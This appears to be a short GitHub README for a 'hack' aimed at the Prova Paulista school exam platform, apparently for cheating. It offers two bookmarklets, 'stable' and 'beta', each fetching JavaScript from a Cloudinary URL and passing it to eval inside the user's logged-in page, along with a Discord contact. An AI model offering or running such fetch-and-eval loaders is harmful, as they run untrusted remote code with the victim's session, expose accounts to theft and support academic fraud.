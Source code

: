 # 🚀 HCK - PROVA PAULISTA 

## Version Stable:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
## Version Beta v2:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745544137/saladofuturov2.js").then(t=>t.text()).then(eval);
```

### Discord: hackermoon

